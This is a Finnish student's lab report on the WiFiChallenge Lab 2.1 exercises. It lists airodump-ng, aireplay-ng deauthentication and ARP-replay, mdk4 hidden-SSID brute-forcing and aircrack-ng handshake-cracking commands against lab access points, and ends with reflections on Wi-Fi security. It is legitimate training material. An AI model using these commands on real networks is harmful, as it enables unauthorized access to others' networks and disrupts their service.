










## a) Tutustu wifi challenge lab 2.1 harjoitus ympäristöön ja käytä tarvittaessa hyväksesi jo olemassa olevia ohjeita.

Latasin virtuaalikoneen .ova tiedoston ja importtasin sen Virtualboxiin **https://drive.proton.me/urls/Q4WPB23W7R#Qk4nxMH8Q4oQ**

## b) Kirjoita raportti siitä mitä opit ja mitkä asia yllättivät sinut kun tutustuit harjoitukseen.

Teen ensiksi osion läpi ja kirjoitan niistä tiivistelmän

Ensimmäinen oli helppo, piti sudolla katsoa 

Recon

Tein tuleville kaappauksille oman kansion

    sudo mkdir kaappaukset

Tässä osiossa piti kerätä tietoja joten käytin tunnilla käytyjä komentoja 

Kuuntelun aloitus

      sudo airmon-ng start wlan0

    sudo airodump-ng wlan0mon -w ~/kaappaus/scan --manufacturer --wps --band abg

Kommennon selitys, pääasiassa itselleni

airodump-ng wlan0mon: aloittaa pakettien kaappamisen läheisilta wifi-verkoilta

-w ~/kaappaus/scan: mihin kaappauksen tulokset tallentaan

--manufacturer: näyttää laitteen valmistajan

--wps: näyttää wps tiedot

--band abg: skannaa wifi taajuudet, a = 5 GHZ, bg = 2,4 GHz eli molemmat wifi-taajuudet

Liput:

01: Mitä kanavaa wifi-global käyttää?

löytyy tuloksista kohdasta ch: 

Vastaus:44

02: Mikä on wifi-IT verkon käyttäjän MAC-osoite? 

Skannauksesta näkyy, että wifi-IT on kanavalla 11, joten menin tutkimaan sitä kanavaa

Lisäsin komentoon lipun -c11, joilloin sen kanavan tietoija näkyy paremmin.

    sudo airodump-ng wlan0mon -w ~/kaappaus/scanc11 --manufacturer --wps -c11

Vastaus (macosoite)

03: Mikä probe  78:C1:A7:BF:72:46 on, muodossa (wifi-)

Vastaus on aikaisemmassa kuvassa wifi-offices

04:  What is the ESSID of the hidden AP (mac F0:9F:C2:6A:88:26)?

    awk '{print "wifi-" $1}' ~/rockyou.txt > ~/wifi-rockyou.txt

    sudo airmon-ng start wlan0 
    sudo iwconfig wlan0mon channel 11
    sudo mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt

Tässä osiossa käytin työkaluja tietojen keräämiseen esim MAC osoitteita ja probeja. Lisäksi työkalulla mdk4 löysi piilotettuja verkkoja

OPN

    network={
	    ssid="$ESSID"
	    key_mgmt=NONE
	    scan_ssid=1
    }

        sudo wpa_supplicant -Dnl80211 -iwlan2 -c free.conf

        dhclient wlan2 -v
        

    

Sieltä tuli ip-osoite 192.168.16.1, jonne voi kirjautua tunnuksella admin ja salasana admin, joilloin saa lipun

Tässä yhdistin avoimiin Wi-Fi verkkoihin ja ohitin login portaalit väärentämällä MAC-osoitteen   

Legacy/WEP

07: Get wifi-old password

        

Skannaamisen aloitus

        sudo airodump-ng -c 3 --bssid F0:9F:C2:71:22:11 -w wifi-old wlan0mon

Liikenteen luonti 

        sudo aireplay-ng -1 3600 -q  10 -a F0:9F:C2:71:22:11  wlan0mon

        sudo aireplay-ng --arpreplay -b F0:9F:C2:71:22:11  -h BA:49:A9:53:A1:8C wlan0mon

 

 Osiossa murtauduittiin verkkoon jossa on WEP-salaus luomalla liikennettä ja sieppamalla kättelyn käyttämällä  aircrack-ng

PSK

08: 

        airodump-ng wlan0mon -w ~/kaappaus/scanc6 -c 6 --wps 

        aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon

        aircrack-ng ~/kaappaus/scanc6-02.cap -w ~/rockyou.txt

Yksi WPA kättely löytyi ja se korkattii rockyou listalla

Tässäkin osiossa kaapataan kättely jälleen ja korkataan aircrack-ng tai hashcatilla 

SAE

Tässä kohdassa kaapataan kättely ja korkataan hashcatilla. Yhdessä tehtävässä laite päivitetään WPA2:sta  SAE:hen.

Recon MGT

15:

			airodump-ng wlan0mon -w ~/kaappaus/scanc44 -c 44 --wps

Se löytyy kun avaa wiresharkilla eli CONTOSEREG

 

 

17: Hakemistossa tools on työkalu EAP-buster jolla saa sen selvitettyä suoraan

 

Tässä tehtävässä haluttu oli EAP-TLS

MGT

Näistä tehtävät olivat jo aika vaikeita, joten en millään olisi itsenäisesti saanut tehtyä, joten päätin olla selostamatta koko walkthrough osiota tähän.

Tässä osiossa tiedustellaan lisää käyttämällä airodump-ng mm. palvelimen sertifikaatista

# Mitä opin tehtävistä

- Keskeisin asia oli, että wifin salasanan saa korkattua, jos saa siepattua kättelyn. Salasanan kräkkäämiseen on monta työkalua kuten hashcat. Tehtävässä käytettiin rockyou listaa, mutta erikseen wifille olevia listoja on varmasti olemassa
- Opin wifin eri mallien toiminnasta ja mitä haavoittuvaisuuksia niillä on
- Tehtävässä oli hyvä kulku, siinä oli tiedostelu- ja hyökkäysvaihe eli vähän kuin simuloitu "oikea" hyökkäys (Dataa ei tarvinnut extractäty joka olisi hyökkäyksen viimeinen vaihe
- Eniten minua yllätti se fakta, että wifi lähettää jatkuvasti dataa ulos, josta hyökkääjä voi kerätä paljon hyödyllistä tietoa
- Lisäksi tuli yllätyksenä kuinka piilossa hyökkääjä voi olla dataa kerätessä. Sen ei tarvitse ottaa kovin isoja riskejä tai käyttää hienoja ja kalliita työkaluja, koska se tieto pyörii vapaasti wifistä

## c) Miten suhtautumisesi WLanin turvallisuuteen muuttui sen jälkeen kun teit harjoitukset?

- Ennen kuin aloitin tekemään tehtävää luulin, että wifi on melko turvallinen. En olisi millään voinut kuvitella, että sillä olisi noin monta eri hyökkäyspintaa
- Tunnustan, että (suojataun) wifin käyttäminen ei ole mikään massiivinen turvallisuusriski, koska sitä käytetään ympäri maailmaa ja sitä kehitetään jatkuvasti.
- Aion ehdottamasti kiinnittää enemmän huomiota koti wifini turvallisuuteen ja pitää sen päivitykset ajan tasalla
- Kiinnostaaa kyllä tietää miten näitä vastaan voi puolustautua ja miten yritykset puolustautuu koska niillä on arvokkaita liikesalaisuuksia yms.

 

## Lähteet

https://lab.wifichallenge.com/challenges

https://drive.proton.me/urls/Q4WPB23W7R#Qk4nxMH8Q4oQ

https://r4ulcl.com/posts/walkthrough-wifichallenge-lab-2.0/

